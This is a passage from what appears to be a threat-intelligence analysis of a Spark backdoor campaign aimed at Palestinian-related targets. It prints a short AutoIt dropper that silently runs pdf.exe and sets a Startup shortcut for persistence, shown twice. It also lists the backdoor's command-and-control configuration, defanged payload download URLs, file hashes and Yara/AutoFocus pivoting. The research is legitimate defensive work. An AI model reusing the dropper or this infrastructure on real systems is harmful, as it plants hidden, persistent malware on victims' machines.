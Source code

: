 



#NoTrayIcon
FileInstall("pdf.exe", "C:\Users\Public\" & "/pdf.exe")
$cmd1 = "C:\Users\Public\" & "\pdf.exe"
RunWait(@ComSpec & " /c start " & $cmd1, "", @SW_HIDE)
FileCreateShortcut("C:\Users\Public\" & "\pdf.exe", @StartupDir & 
"\pdf.lnk")




123456

#NoTrayIconFileInstall("pdf.exe", "C:\Users\Public\" & "/pdf.exe")$cmd1 = "C:\Users\Public\" & "\pdf.exe"RunWait(@ComSpec & " /c start " & $cmd1, "", @SW_HIDE)FileCreateShortcut("C:\Users\Public\" & "\pdf.exe", @StartupDir & "\pdf.lnk")





Like the “runawy.exe” payload delivered by the attachment.doc Word document, the "pdf.exe" file saved to the system is a packed variant of the Spark backdoor. This variant of the backdoor had the following configuration:
{"xBql":"laceibagrafica[.]com","eauy":"/","Qnd":80,"jJN":0,"rlOa":"","Eb":1,"BGa":"vcJbq6nzgJk=","qJk":10000}
Delivery Infrastructure
Often when investigating attacks like these, links between infrastructure used across distinct campaigns can be easily found, such as by tracking reused IP addresses or domains, finding related domains sharing similar attributes, and so on. In the case of all the MOFA-related delivery documents listed in Table 1, servicebios[.]com was the only domain used, and most of the infrastructure information related to historical usage.
With the AutoFocus Threat Intelligence service, we used alternative data points provided from our cloud sandbox, WildFire, during the analysis of said malicious documents in order to pivot and discover additional samples and related infrastructure. In this section we will discuss the methods we used and describe the additional infrastructure.
Figure 4 below is a maltego chart showing the Word documents and Visual Basic Script (vbs) files related to the servicebios[.]com domain in the bottom half of the chart, with some of the related entities connected via one of two links, to other entities in the top half of the chart. Said links include Yara signatures in the blue box and an AutoFocus query in the orange box, as indicated by the “AF” for AutoFocus.
Figure 4. Chart showing relationships between delivery documents and associated infrastructure
The AutoFocus query relates to a specific process execution chain leading to a Windows Scripting Host process (wscript.exe) launching the malicious VBS downloader scripts. This allowed us to pivot on behavioural artefacts from the “MOFA- 101019.doc” (SHA256: ddf938508618ff7f147b3f7c2b706968cace33819e422fe1daae78bc256f75a8) document to previously unknown documents “التقرير اليومي حول أهم المستجدات الفلسطينية ليوم - 9 - 9 - 2019.doc” (Daily report on the most important Palestinian developments, 9-9-2019.doc; SHA256: feec28c7c19a8d0ebdca8fcfc0415ae79ef08362bd72304a99eeea55c8871e21) and “التقرير اليومي حول أخر مستجدات الإرهاب العالمي- 9 - 9 - 2019.doc” (Daily updates on the latest terrorism report Alaalmi- 9 - 9 - 2019.doc; SHA256: bf126c2c8f7d4263c78f4b97857912a3c1e87c73fee3f18095d58ef5053f2959).
As with the original Word document, the VBA macro code inside the new documents also used the open-source code “Base64 decode VBS function” from Motobit to decode (T1027) the download function and URL to VBS before running it. The main difference between the VBS files is the domain - dapoerwedding[.]com - where the secondary VBS payload was hosted. At the time of this activity the domain resolved to 45.15.168[.]118 and was used in a previous campaign from September 2019.
In parallel to searching for related files using behavioural commonalities, we authored Yara signatures for the VBS code associated with the original delivery document, to scan our and VirusTotal’s corpus. This led to two additional VBS files: SHA256: 85631021d7e84dc466b23cf77dd949ebc61011a52c1f0fb046cfd62dd9192a15 represents the 1st stage VBS downloader containing minor changes to the domain and filename used, as follows:
https://dapoerwedding[.]com/GoogleChrome.vbs
The second VBS file discovered (SHA256: 9451a110f75cbc3b66af5acb11a07a8d5e20e15e5487292722e695678272bca7) is the 2nd stage VBS downloader with reference to the final MSI file payload, which was unavailable at the time of writing:
https://dapoerwedding[.]com/GoogleChrome.msi